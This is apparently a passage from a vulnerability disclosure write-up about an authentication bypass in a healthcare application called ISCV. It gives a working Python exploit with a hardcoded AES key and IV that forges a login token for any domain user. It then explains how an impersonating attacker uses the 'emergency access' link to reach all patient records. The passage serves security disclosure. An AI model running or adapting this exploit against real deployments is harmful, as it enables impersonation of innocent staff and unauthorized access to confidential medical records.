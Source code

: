     :::python
    domain = input("Enter the domain name: ").upper()
    username = input("Enter the username: ").upper()
    timestamp = datetime.datetime.now()
    timestamp_formatted = timestamp \
        .strftime("%m/%d/%Y %l:%M:%S %p") \
        .replace("  ", " ")
    payload = f"{domain}\\{username};{timestamp_formatted}"

Next, we need encode the message as UTF16-LE, pad it to a 16 byte interval using PKCS7, and apply AES-128 encryption.  The key and initialization vector for CBC mode are derived from the value within the ISCV configuration file.  Revealing the key and derivation is not necessary.  I have precomputed the AES parameters, as they do not change.

    :::python
    plaintext = payload.encode(encoding="utf-16le")
    key = bytes([
        0x54, 0xca, 0x19, 0xea, 0xc6, 0xf9, 0xdf, 0x9b,
        0xc3, 0xc4, 0x9b, 0xde, 0x8f, 0xd3, 0x58, 0xcc
    ])
    iv = bytes([
        0xc6, 0xf9, 0xdf, 0x9b, 0x92, 0x04, 0x69, 0x0b,
        0xea, 0xe7, 0x60, 0x33, 0x5c, 0x3e, 0x7b, 0x6d
    ])
    encryptor = AES.new(key, AES.MODE_CBC, IV=iv)
    ciphertext = encryptor.encrypt(pad(plaintext, 16, style="pkcs7"))

Lastly, we need to embed this token within the GET parameters of a request to `/STS/Forms/Login.aspx`.  We'll prompt for the hostname, as it is also used to construct the value of `wtrealm`.

    :::python
    server = input("Enter the hostname/ip of the target: ")
    authcontext = base64.b64encode(ciphertext)
    params = urllib.parse.urlencode((
        ("AuthContext", authcontext),
        ("wctx", "rm=0&id=passive&ru=%2fISCV%2f"),
        ("wa", "wsignin1.0"),
        ("wct", timestamp.strftime("%Y-%m-%dT%R:%SZ")),
        ("wtrealm", f"https://{server}/ISCV/")
    ))
    url = f"https://{server}/STS/Forms/Login.aspx?{params}"
    print(f"Launching {url} in default browser...")
    webbrowser.open(url, new=0, autoraise=True)

Once the link is opened, the remaining three "phases" go off and setup our session before finally logging us into the application.  Once we are in the application, ISCV helpfully provides an "emergency access" link that can be pressed to access all patient records.  The attacker is given a stern warning that this action will be logged, but, since the attacker is likely impersonating someone innocent, this doesn't prevent us from (ab)using this functionality to gain complete access to all records.

# Disclosure and response
